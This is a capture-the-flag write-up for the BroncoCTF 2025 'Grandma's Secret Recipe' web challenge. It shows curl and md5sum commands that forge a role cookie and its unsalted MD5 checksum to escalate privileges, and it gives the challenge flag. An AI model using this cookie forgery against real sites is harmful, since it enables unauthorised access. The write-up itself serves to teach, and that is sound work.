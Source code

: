 # Grandma's Secret Recipe

## Background

Grandma has been baking her world-famous cookies for decades, but she’s always kept her secret recipe locked away. Nobody—not even her most trusted kitchen helpers—knows the full list of ingredients.<br><br>
She insists it’s all about "the perfect balance of love and a pinch of mystery", but deep down, you know there’s more to it. Rumors say only Grandma herself is allowed to see the recipe, hidden somewhere in her kitchen.<br><br>
But, you were hired by Grandpa, who divorced her because she refused to share the recipe. Can you figure out the true secret behind her legendary cookies? 🍪👵

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image.png)

- **Difficulty: Easy**
- **This challenge doesn't have source code**

## Enumeration

Access the link, it leads me to the page that has 3 buttons: `Login`, `Logout`, `Grandma's Pantry`.

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-1.png)

The page says that I'm logging in as a kitchen and only Grandma can view the secret recipe. So I decided to click the button `Grandma's Pantry` to see if I can get the secret recipe.

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-2.png)

It is clearly that we can't get the secret recipe. This challenge seems to be related to cookies, so I will check on the cookies.

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-3.png)

This page has two cookies: `checksum` and `role`. The `role` cookie contains the value of `"kitchen helper"` which role I'm currently login as. First, I will try to change the value of `role` to `Grandma` or `grandma` to see if I can get the recipe.<br>
I can change the value of the cookie directly, but I will use curl to improve my Linux skill:

```bash
curl --cookie "role=\"Grandma\""  https://grandma.web.broncoctf.xyz/grandma
```

Both value `"Grandma"` and `"grandma"` can't get me the recipe. I will only show the result of `"Grandma"` value:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-4.png)

Hmm, maybe I will need the use of `checksum` cookie. This cookie contains a value like a `MD5` hash. I will check if the value of `checksum` cookie is gotten from `MD5` hashing the value of `role` cookie. We need to test if the `checksum` cookie hashes the value of `role` cookie inside the quotes or includes the quotes as well.

```bash
echo -n "kitchen helper" | md5sum
```

And yes! Exactly what we think, the value of `checksum` cookie is really gotten from MD5 hashing the value of `role` cookie (without quotes):

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-5.png)

## Exploitation

Now, we will test two cases of cookies:
1. `checksum`: MD5hash(`grandma`), `role`: `"grandma"`
2. `checksum`: MD5hash(`Grandma`), `role`: `"Grandma"`

First case:

```bash
echo -n "grandma" | md5sum
#a5d19cdd5fd1a8f664c0ee2b5e293167
curl --cookie "checksum=a5d19cdd5fd1a8f664c0ee2b5e293167;role=\"grandma\""  https://grandma.web.broncoctf.xyz/grandma | grep "bronco"
```

And with the first case, we got the flag!

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-6.png)

- **Flag: `bronco{grandma-makes-b3tter-cookies-than-girl-scouts-and-i-w1ll-fight-you-over-th@t-fact}`**

## Conclusion

What we've learned:

1. Cookie Manipulation